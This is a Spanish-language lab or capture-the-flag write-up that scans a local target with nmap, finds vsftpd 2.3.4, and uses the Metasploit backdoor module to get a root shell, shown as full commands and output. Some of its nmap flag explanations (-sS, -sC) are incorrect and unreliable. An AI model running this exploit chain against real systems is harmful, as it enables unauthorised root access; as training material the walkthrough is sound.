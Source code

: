 # BreakMySSH
**Herramientas y recursos usados**
- nmap
- searchsploit
- hydra

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN BreakMySSH`

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo
```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
El único puerto abierto es el 21, que corresponde al servicio FTP.
Tenemos un servicio vsftpd con versión 2.3.4, podemos buscar alguna vulnerabilidad existente para este servicio con searchsploit.  

`searchsploit vsftpd 2.3.4`  
```
Exploit Title                                           Path
-----------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)   unix/remote/17491.rb
-----------------------------------------------------------------------------------
```
Encontramos 2 exploits, uno con extensión .rb que podemos utilizar a través de Metasploit.  
Iniciamos Metasploit y buscamos de nuevo la vulnerabilidad encontrada anteriormente con el comando `search`.
```
msf6 > search vsftp 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```
Ahora utilizaremos el comando `use` para seleccionar este exploit.
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Con el comando `show options` podemos ver las informaciones necesarias para ejecutar el exploit.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```
En este caso solo hará falta insertar esta información:
- RPORT -> Puerto 21 (FTP) de la máquina víctima (que ya está cumplimentado)
- RHOSTS -> Dirección IP de la máquina víctima (172.17.0.2)

Para ello usaremos el comando `set`  
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Vemos si se han aplicado los cambios insertados:
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.17.0.2       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Por último, ejecutaremos el exploit con el comando `run`.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.1:38103 -> 172.17.0.2:6200) at 2024-06-16 15:59:31 -0400

id
uid=0(root) gid=0(root) groups=0(root)
```
Listo! Ya somos root!
